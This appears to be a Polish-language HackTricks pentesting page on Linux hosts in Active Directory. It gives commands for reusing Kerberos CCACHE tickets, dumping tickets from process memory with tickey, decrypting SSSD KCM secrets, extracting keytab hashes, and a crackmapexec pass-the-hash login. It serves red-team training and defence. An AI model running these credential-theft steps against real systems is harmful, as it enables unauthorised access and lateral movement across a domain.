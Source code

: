 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Maszyna linuxowa może również znajdować się w środowisku Active Directory.

Maszyna linuxowa w AD może **przechowywać różne bilety CCACHE w plikach. Te bilety mogą być używane i nadużywane jak każdy inny bilet kerberosowy**. Aby odczytać te bilety, musisz być właścicielem biletu lub **rootem** na maszynie.

## Enumeration

### AD enumeration from linux

Jeśli masz dostęp do AD w linuxie (lub bash w Windows), możesz spróbować [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn), aby zenumerować AD.

Możesz również sprawdzić następującą stronę, aby dowiedzieć się o **innych sposobach enumeracji AD z linuxa**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA to otwartoźródłowa **alternatywa** dla Microsoft Windows **Active Directory**, głównie dla środowisk **Unix**. Łączy kompletny **katalog LDAP** z MIT **Kerberos** Key Distribution Center do zarządzania podobnego do Active Directory. Wykorzystując system certyfikatów Dogtag do zarządzania certyfikatami CA i RA, wspiera **uwierzytelnianie wieloskładnikowe**, w tym karty inteligentne. SSSD jest zintegrowany z procesami uwierzytelniania Unix. Dowiedz się więcej o tym w:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Playing with tickets

### Pass The Ticket

Na tej stronie znajdziesz różne miejsca, w których możesz **znaleźć bilety kerberosowe w hoście linuxowym**, na następnej stronie możesz dowiedzieć się, jak przekształcić te formaty biletów CCache na Kirbi (format, którego musisz użyć w Windows) oraz jak przeprowadzić atak PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

Pliki CCACHE to binarne formaty do **przechowywania poświadczeń Kerberos**, które zazwyczaj są przechowywane z uprawnieniami 600 w `/tmp`. Pliki te można zidentyfikować po ich **formacie nazwy, `krb5cc_%{uid}`,** odpowiadającym UID użytkownika. Aby zweryfikować bilet uwierzytelniający, **zmienna środowiskowa `KRB5CCNAME`** powinna być ustawiona na ścieżkę do pożądanego pliku biletu, co umożliwia jego ponowne użycie.

Wypisz aktualny bilet używany do uwierzytelniania za pomocą `env | grep KRB5CCNAME`. Format jest przenośny, a bilet może być **ponownie użyty, ustawiając zmienną środowiskową** za pomocą `export KRB5CCNAME=/tmp/ticket.ccache`. Format nazwy biletu Kerberos to `krb5cc_%{uid}`, gdzie uid to UID użytkownika.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Bilety Kerberos przechowywane w pamięci procesu mogą być wyodrębniane**, szczególnie gdy ochrona ptrace maszyny jest wyłączona (`/proc/sys/kernel/yama/ptrace_scope`). Przydatnym narzędziem do tego celu jest dostępne pod adresem [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), które ułatwia wyodrębnianie poprzez wstrzykiwanie do sesji i zrzucanie biletów do `/tmp`.

Aby skonfigurować i używać tego narzędzia, należy wykonać poniższe kroki:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ta procedura spróbuje wstrzyknąć do różnych sesji, wskazując na sukces poprzez przechowywanie wyodrębnionych biletów w `/tmp` z konwencją nazewnictwa `__krb_UID.ccache`.

### Ponowne użycie biletu CCACHE z SSSD KCM

SSSD utrzymuje kopię bazy danych pod ścieżką `/var/lib/sss/secrets/secrets.ldb`. Odpowiedni klucz jest przechowywany jako ukryty plik pod ścieżką `/var/lib/sss/secrets/.secrets.mkey`. Domyślnie klucz jest czytelny tylko, jeśli masz uprawnienia **root**.

Wywołanie \*\*`SSSDKCMExtractor` \*\* z parametrami --database i --key zanalizuje bazę danych i **odszyfruje sekrety**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Blob pamięci podręcznej poświadczeń Kerberos można przekształcić w użyteczny plik CCache Kerberos**, który można przekazać do Mimikatz/Rubeus.

### Ponowne użycie biletu CCACHE z keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Wyciągnij konta z /etc/krb5.keytab

Klucze kont serwisowych, niezbędne dla usług działających z uprawnieniami roota, są bezpiecznie przechowywane w plikach **`/etc/krb5.keytab`**. Te klucze, podobnie jak hasła dla usług, wymagają ścisłej poufności.

Aby sprawdzić zawartość pliku keytab, można użyć **`klist`**. Narzędzie to jest zaprojektowane do wyświetlania szczegółów kluczy, w tym **NT Hash** do uwierzytelniania użytkowników, szczególnie gdy typ klucza jest identyfikowany jako 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Dla użytkowników Linuksa, **`KeyTabExtract`** oferuje funkcjonalność do ekstrakcji hasha RC4 HMAC, który można wykorzystać do ponownego użycia hasha NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Na macOS, **`bifrost`** służy jako narzędzie do analizy plików keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Wykorzystując wyodrębnione informacje o koncie i haszach, można nawiązać połączenia z serwerami za pomocą narzędzi takich jak **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Odniesienia

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
